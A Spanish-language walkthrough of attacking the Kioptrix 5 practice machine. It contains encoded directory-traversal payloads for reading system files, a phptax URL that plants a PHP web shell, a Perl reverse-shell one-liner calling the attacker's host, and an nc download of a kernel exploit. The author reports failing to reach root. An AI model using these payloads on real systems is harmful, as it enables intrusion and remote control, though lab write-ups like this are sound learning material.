[[Ciberseguridad.base]] #Pentesting  #maquinas #Linux 

Para realizar esta quinta y última máquina de Kioptrix, tenemos que tener en cuenta las mismas cosas que en la anterior: probar el flujo habitual y típico del pentesting: reconocimiento y enumeración, explotación, escalada de privilegios y post-explotación. 

El objetivo de esta máquina es claro: conseguir acceso root. Pero para conseguirlo tendremos que hacer cosas distintas a las del resto de máquinas. Esta máquina es más indirecta y herramientas como SQLmap no nos van a funcionar.

## Reconocimiento y enumeración

Lo primero, como en el resto de máquinas, que debemos hacer es escanear nuestra red para encontrar la IP de la máquina. Una vez sabemos cuál es la IP que tiene nuestra máquina vulnerable Kioptrix 5, pasamos a ver qué servicios tiene abiertos y por dónde podríamos empezar a explorar.



Aquí vemos que tenemos dos servicios HTTP. Uno en el 80 y otro en el 8080. 

En el puerto 80, si nos metemos en el navegador lo único que veremos será un mensaje:



"It works!" es lo único que dice. 

Si nos metemos en el 8080 veremos esto:



Así que por el puerto 8080 no hay nada que podamos hacer. Nos toca regresar al 80. Pero en el 80 no hay nada, al menos aparentemente. Sólo un mensaje. Sin embargo, si hacemos Ctrl + U para ver su código fuente vemos por dónde podemos seguir explorando:



La clave aquí está en la URL que nos ofrece: "pChart.2.1.3/index.php".

Si ponemos esta URL en el navegador veremos:



Esto es una librería de PHP para crear gráficos. Podemos movernos por ella y ver lo que tiene: "Examples", "Sandbox", "Delayed loader"..., etc. Pero aquí no encontraremos nada que nos sea de utilidad. 

La cuestión para avanzar a partir de aquí es explotar las vulnerabilidades de pChart.

## Explotación

Para continuar, inspeccionaremos otra vez el código fuente de la página, en este caso del pChart en cuanto tal, para ver cómo funciona y por dónde podríamos atacarlo:



La clave está al final del código, en esta parte. Aquí nos dice cómo funciona y cómo construye las peticiones. 

La parte que nos interesa, en concreto, es esta:

			"URL = "index.php?Action=View&Script=" + URL;"

Esta URL nos permitirá construir peticiones con las que seguir profundizando en el servicio. 

Por ejemplo, si hacemos: 

			"http://192.168.1.159/pChart2.1.3/examples/index.php?Action=View&Script=1%27%20OR%20%271%27=%271"

Es decir: "1' OR '1'='1", veremos que sale todo en blanco.



¿Esto qué significa? Que el parámetro Script es vulnerable y podemos hacer Directory Traversal y LFI (Local File Inclusion), que consiste en una vulnerabilidad web que permite forzar a una aplicación a subir y mostrar archivos del propio servidor. Esto se produce cuando el código de la aplicación usa rutas o nombres de archivo basados en parámetros controlados por el usuario **sin validarlos**. Y nos puede servir para exfiltrar contenido sensible e incluso conseguir RCI (ejecución remota de comandos).

Después de comprobar que la vulnerabilidad está presente, probamos a ver los usuarios y los privilegios del sistema intentando acceder a /etc/passwd con:

					"../../../../etc/passwd"

Pero no nos va a funcionar.



¿Por qué? Porque los filtros básicos que tiene el servidor no permiten acceder al archivo. Lo bloquean o normalizan. Así, no se puede subir en el árbol de directorios. 

Pero si disfrazamos la ruta codificándola, podremos acceder. Para lograr explotar la vulnerabilidad, en lugar de: "../../../../etc/passwd", debemos escribir:

				"%2f..%2f..%2fetc/passwd"

El patrón pasa desapercibido y el servidor decodifica primero la URL y convierte %2f en /. 

Y tenemos este resultado:



Ahora podemos ver el sistema operativo y, sobre todo, los usuarios que existen en el servidor y sus privilegios. Los más interesantes son root y toor. 

Ahora que ya sabemos qué usuarios hay, podemos probar otras opciones del parámetro Script. Por ejemplo, podemos intentar acceder y leer los logs del servidor. Eso lo logramos con:

				"%2f..%2f..%2fvar%2flog%2fhttpd-access.log"

Cuando lo ponemos nos sale:

![[logsservidor 1.jpg]]

Todo lo que hagamos en cuestión de interacción con el servidor se verá reflejado en estos logs. 

Como podemos acceder y podemos leerlos, lo siguiente, para seguir explotando el servidor, es el **log poisoning**. Podemos aprovechar esto para enviar peticiones maliciosas e incluir el log mediante LFI. Así, cuando el servidor lea el contenido del log lo interpretará como PHP, se ejecutará y podremos seguir profundizando.

Intenté aprovechar el log poisoning para obtener una web shell y ejecutar comandos. Lo hice con Burp Suite modificando el User-agent de la petición, pero no conseguí nada. Así que tuve que buscar otros sitios que mirar mediante LFI.

Me encontré, así, con el archivo de configuración de Apache del servidor, que me dio información que me faltaba. Para acceder a él, usé esta dirección dentro del parámetro Script:

			"%2f..%2f..%2fusr/local/etc/apache22/httpd.conf"

Y dentro encontré:



Esto significa que sólo deja acceder al servicio del puerto 8080 con un navegador que sea Mozilla 4.0. 
¿Cómo solucionar esto? Con Burp Suite, hacemos una petición al puerto 8080 de la IP de la máquina que estamos atacando y que la intercepte. Cuando lo haga, simplemente cambiamos la versión de nuestro navegador y ponemos la admitida por Apache en el campo de User-Agent. 



Esto provoca que podamos entrar. Nos da mensaje 200 y nos muestra lo que hay dentro. Un servicio llamado "Phptax". Veamos si podemos explotarlo. 

Pero para poder verlo desde el navegador la cosa iba a ser más difícil. Lo intenté con proxys, con el propio Burp Suite y sus reglas e incluso en la configuración de Firefox, pero nada. 

Tuve que descargar esta extensión para poder cambiarlo:



Añadí el navegador permitido dentro de la lista de navegadores de la extensión:



Y luego lo activé dentro de la URL. Después de esto, por fin podía acceder ya desde el navegador al puerto 8080:



PHPtax es una librería de PHP para facturas. Esto es todo lo que había dentro. 

Esta librería es antigua y tiene vulnerabilidades. Buscando en el código fuente, no encontré nada de interés. Pero buscando vulnerabilidades en sí, sí:



Dejando aparte el primer exploit, que es para Metasploit, me centré en los dos. Busqué información sobre ambos y el tercero, el 21665, era más automático que el otro, que era más manual a través de la manipulación del parámetro "newvalue" en la petición a la aplicación PHPtax.

Intenté manipularlo a través de Burp Suite, pero no lo conseguí. Luego decidí probar el enlace que venía dentro del exploit que usé, que fue el 25849.txt, y aparentemente no sucedió nada cuando lo ejecuté. 

El enlace, por cierto, con el exploit incorporado en la URL, quedó así: 

			"http://192.168.1.159:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E"

La explotación de la vulnerabilidad como tal consiste en la creación de un archivo: "rce.php", aprovechando el parámetro "newvalue", como he dicho antes, de la aplicación. La creación de este archivo hace que dentro tenga una web shell y se puedan ejecutar comandos. 

Para comprobar si esto funcionaba, cambié la URL e intenté meterme en rce.php:

		"http://192.168.1.159:8080/phptax/data/rce.php?cmd=id"

El resultado fue este:



La web shell funcionaba y a partir de este punto ya podía intentar escalar dentro del sistema. 
Exploré con ls el servidor y vi algunos archivos, pero me puse a pensar en que lo mejor sería pasar de una web shell a una shell interactiva donde pudiera explorar mejor y, sobre todo, pudiera hacer más cosas. 

Probé con varias shells, como Bash o Python, pero la que me funcionó fue esta de Perl:

			"perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.1.41:5000");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'"



A partir de aquí podía ya escalar privilegios.

## Escalada de privilegios

Miré el directorio /etc/passwd, el /etc/master.passwd y el /etc/crontab. No vi nada en especial o vulnerable. 

Miré también ps aux, pero aunque encontré MySQL, al intentar entrar no sucedía nada. Ni error ni nada. Con lo cual me fue imposible de acceder.

Pasé, por tanto, a buscar binarios SUID con:

			"find / -perm -4000 -type f 2>/dev/null"



De aquí, los más interesantes son: "chpass", "passwd", "chfn", "chsh". Si encuentro alguno de ellos mal configurado, podría cambiar contraseñas o escalar a root. 
Pero desde el usuario que tenía no podía acceder. Desde el usuario que tenía no podía leer ni modificar el archivo con las contraseñas:



Así que sólo me quedó la opción de buscar y usar exploits del kernel del sistema operativo, que es FreeBSD 9.0. Y existía uno, en efecto. Así que lo descargué, levanté un servidor rápido usando Python en la máquina atacante en la carpeta de Downloads y traté de pasarme el archivo. Wget, por algún motivo, me fallaba. Pero con nc me funcionó:

			"nc 192.168.1.41 8080 > /tmp/26368.c"



Lo compilo a continuación con:

				"gcc /tmp/26368.c -o /tmp/exploit"

Pero no funciona de ningún modo. Probé muchas veces la compilación, me traje varias veces el archivo, intenté usar el otro exploit que hay disponible para el kernel de esta máquina y no funcionaba. No compilaba. Sin compilación no podía ejecutar el exploit y escalar a root.

Dicho esto, considero terminada la máquina. No hay nada que pudiera hacer para terminar. Aunque he llegado al final, al menos.

En el directorio /root puede verse, aunque no acceder, el archivo de felicitación por haber completado la máquina. Si hubiera podido avanzar, lo habría leído y habría terminado. 

El contenido de este trabajo es para fines educativos en entornos controlados. El autor no se hace cargo de posibles usos indebidos o maliciosos que puedan hacerse de la información que contiene. 
El propósito de estos ejercicios es aprender cómo funcionan las vulnerabilidades y mejorar las defensas de los sistemas. 
Estas son máquinas diseñadas específicamente para ser vulneradas y exploradas.